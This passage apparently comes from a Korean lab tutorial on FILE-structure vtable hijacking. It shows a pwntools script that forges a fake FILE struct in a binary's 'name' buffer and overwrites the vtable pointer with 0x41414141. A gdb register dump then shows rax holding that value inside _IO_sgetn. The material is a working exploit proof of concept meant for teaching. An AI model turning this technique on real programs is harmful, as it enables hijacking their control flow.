 - fp_test.py
    
    ```python
    #fp_test.py
    from pwn import *
    
    p = process("./fp_vtable")
    
    elf = ELF("fp_vtable")
    
    name_buf = elf.symbols['name']
    
    name = p64(0xfbad2488)
    name += p64(0)*13
    name += p64(3)
    name += p64(0)*2
    name += p64(name_buf + 0xe0)
    name += p64(0xffffffffffffffff)
    name += p64(0)*8
    name += p64(0x41414141) # vtable
    name += b"\x00"*(256-len(name))
    name += p64(name_buf)
    
    print(p.sendlineafter("Name:", name))
    
    p.interactive()
    ```
    

`fp_test.py` 를 보면 `name` 버퍼에 가짜 파일 구조체를 구성했다. 파일 함수가 참조하는 vtable을 `0x41414141` 로 조작하고, 파일 포인터를 가짜 파일 구조체를 구성한 `name` 버퍼를 가리키게 조작했다.

`fp_test.py` 를 실행하면 결과는 다음과 같다.

```bash
gdb-peda$ i r
rax            0x41414141       0x41414141
rbx            0x6010a0 0x6010a0
rcx            0x6010a0 0x6010a0
rdx            0x4      0x4
rsi            0x7ffd03800c20   0x7ffd03800c20
rdi            0x6010a0 0x6010a0
rbp            0x1      0x1
rsp            0x7ffd03800be8   0x7ffd03800be8
r8             0x601180 0x601180
r9             0x7ffd03800c20   0x7ffd03800c20
r10            0x7f2fb0204700   0x7f2fb0204700
r11            0x7f2fafc8c1b0   0x7f2fafc8c1b0
r12            0x4      0x4
r13            0x4      0x4
r14            0x0      0x0
r15            0x0      0x0
rip            0x7f2fafc99717   0x7f2fafc99717 <__GI__IO_sgetn+7>
eflags         0x10202  [ IF RF ]
cs             0x33     0x33
ss             0x2b     0x2b
ds             0x0      0x0
es             0x0      0x0
fs             0x0      0x0
gs             0x0      0x0
k0             0x0      0x0
k1             0x0      0x0
k2             0x0      0x0
k3             0x0      0x0
k4             0x0      0x0
k5             0x0      0x0
k6             0x0      0x0
k7             0x0      0x0

```
